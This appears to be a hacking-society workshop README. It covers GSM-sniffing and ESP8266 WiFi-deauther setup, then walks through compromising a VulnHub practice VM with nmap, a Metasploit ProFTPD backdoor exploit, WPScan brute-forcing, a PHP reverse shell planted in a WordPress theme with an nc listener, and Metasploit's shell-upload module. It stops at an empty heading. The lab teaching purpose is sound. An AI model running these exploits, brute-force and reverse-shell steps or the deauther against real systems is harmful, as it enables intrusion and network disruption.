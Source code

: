 # hacksoc28.3.19
All the details of my presentation for those that fall behind

Pre-requisites for the workshop(software)

Any Linux distro 

Arduino IDE (https://www.arduino.cc/en/main/software)

Wireshark (sudo apt-get install wireshark)(Ubuntu/Debian based) 

Python

## GR-GSM(This requires an SDR and some time to compile)
```
sudo apt-get update && \
sudo apt-get install -y \
    cmake \
    autoconf \
    libtool \
    pkg-config \
    build-essential \
    python-docutils \
    libcppunit-dev \
    swig \
    doxygen \
    liblog4cpp5-dev \
    python-scipy \
    python-gtk2 \
    gnuradio-dev \
    gr-osmosdr \
    libosmocore-dev   
```
## Download GR-gsm and compile with (https://github.com/ptrkrysik/gr-gsm)
```
git clone https://git.osmocom.org/gr-gsm
cd gr-gsm
mkdir build
cd build
cmake ..
mkdir $HOME/.grc_gnuradio/ $HOME/.gnuradio/
make
sudo make install
sudo ldconfig
```
## Wifi Deauthentication using ESP8266
(I will provide 4 Nodemcu's you can play around which are pre configured ) 
First we need to flash the NodeMcu using this tutorial (easier to follow the link)
https://github.com/spacehuhn/esp8266_deauther/wiki/Installation


## Pentest part 
This pen test will cover tools like

Nmap
ZAP
metasploit

You are more than welcome to download the Vm and run this on your machine 
https://www.vulnhub.com/entry/basic-pentesting-1,216/


Firstly open up Kali linux or any linux machine 



lets run an Nmap scan on the target machine(you can easily get this since the Vm has a gui by going to connection information)

```
nmap -p- -sS -Pn -n -vvv -oA nmap-host-ports <machine-ip>
```
For demostration purposes i will be using openVas to show some of the vulnabilities

We can see that port 21,22,80 are open
(using openVas we can see that port 21 is exploitable)

This looks promising. Let’s try to exploit it with Metasploit.
```
msfconsole
search ProFTPD
use exploit/unix/ftp/proftpd_133c_backdoor
```


Bingo! Found something. Let’s set the target’s IP.

```
set RHOST xxx.xxx.xxx.xxx
```

And run the exploit.

```
run
whoami
```

Fantastic WE JUST GAINED ROOT ACCESS 

Now that we have gained root access lets dig a little deeper and find some more fancy stuff!


{we can skip this step since we already used Nmap but lets explore the GUI version}
Start up Zenmap and scan against the target IP

It revealed a couple of open ports:

    21 – ProFTPD (What we already exploited)
    22 – OpenSSH
    80 – HTTP with Apache
    
Now try and open the Targets IP address with a web browser 

Now open up your terminal again and start up a uniscan 
Scan the given URL (-u http://<target-ip>) for vulnerabilities, enabling directory and dynamic checks (-qd):
    
```
uniscan -u http://<target-ip> -qd 
```
Interesting. This reveals a URL that we might want to have a deeper look at.

<Taget-ip>/sercet/
    
Also, some external hosts were found:
https://www.ceos3c.com/wp-content/uploads/2018/03/2018-03-23-10_08_44.png

And a test of http://<target-ip>/secret/wp-login.php reveals a WP-Login page. Bingo! Now the fun can begin.
    
Alright, we are a big step further now. The first thing I want to do now is run  WPScan against the site to enumerate potential users and find potential vulnerabilities.

```
wpscan --url http://<taget-ip>/secret/
```

The WPScan discovers a couple of vulnerabilities:

    WordPress 2.8.6-4.9 – Authenticated JavaScript File Upload – CVE-2017-17092
    WordPress 1.5.0-4.9 – RSS and Atom Feed Escaping – CVE-2017-17094
    WordPress 4.3.0-4.9 – HTML Language Attribute Escaping – CVE-2017-17093
    WordPress 3.7-4.9 – ‘newbloguser’ Key Weak Hashing – CVE-2017-17091
    WordPress 3.7-4.9.1 – MediaElement Cross-Site Scripting (XSS) – CVE-2018-5776
    WordPress <= 4.9.4 – Application Denial of Service (DoS) (unpatched) – CVE-2018-6389
    
    
 But first, let’s run a user enumeration with WPScan.
 ```
 wpscan --url http://192.168.1.111/secret/ --enumerate u
 ```
 Admin as a username… Why not try admin/admin? Huh? Entering Username and Password redirects us somewhere else, a domain.
 
 That’s weird. Let’s figure out what’s up with that.

All links on the “Secret Blog” redirect to a domain named vtcsec, leaving us with a blank page. So if we want to click on a link on the Secret Blog, we get redirected, for example, to http://vtcsec/secret/index.php/2017/11/16/hello-world/

However, if we replace http://vtcsec/ with http://192.168.1.111/secret/index.php/2017/11/16/hello-word/ we are able to access the site. 

Now to be able to run a brute-force attack against the WordPress site without error, we need to add 192.168.1.111 pointing to vtcsec into our hosts file.

```
nano /etc/hosts
```
https://www.ceos3c.com/wp-content/uploads/2018/03/2018-03-23-14_30_13.png

We can verify if that worked by clicking on a link on the http://<target-ip>/secret/ site again. And there we go, hit F5 to refresh the page and it starts loading correctly.
We now have access to the Admin Dashboard which gives us a host of new things to try.
    
    
But not so fast, what if the password wouldn’t have been admin/admin? We could have used wpscan to brute-force a couple of default passwords against it by running the command below.


```
wpscan --url http://vtcsec/secret/wp-login.php --username admin --wordlist /usr/share/wordlists/metasploit/http_default_pass.txt --wp-content-dir http://<target-ip>:80/secret/wp-content/ --threads 50

```

I used the http_default_pass.txt wordlist and it, sure enough, found the correct password as well.



(This part will not work in this example but is a proof of concept)
We are going to add malicious code to the header.php page. I went to /usr/share/webshells/php and copy the code of php-reverse-shell.php

On your Attacking Computer go to Places -> File System -> usr -> share -> webshells -> php and open php-reverse-shell.php

Copy all of it’s content:

Now I went to Appearance -> Editor -> Theme Header(header.php) in WordPress. I pasted the code at the bottom of the file and changed the IP to my attacking computer. You can delete the code that was in the file before. Also, I changed the port for good measure. Now I updated the file.

https://www.ceos3c.com/wp-content/uploads/2018/03/2018-03-26-10_29_32.png

Next, I need to start a listener on my attacking computer.

```
nc -lvp 443
```

Once that is done, you just open http://http://vtcsec/secret/ once more and you will see that we get a connection on our listener.

We are logged in as the www-data User.

# Using Metasploit to upload a malicious WordPress Plugin

The Metasploit Admin Shell Upload module sounds promising. Firing up Metasploit and configuring the module first.
```
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
````

set up every thing like so 
https://www.ceos3c.com/wp-content/uploads/2018/03/2018-03-26-14_20_19.png


Finally run by typing

```
exploit
```

And boom! We got a Meterpreter shell


# Using unix privilege escalation check to analyze the target








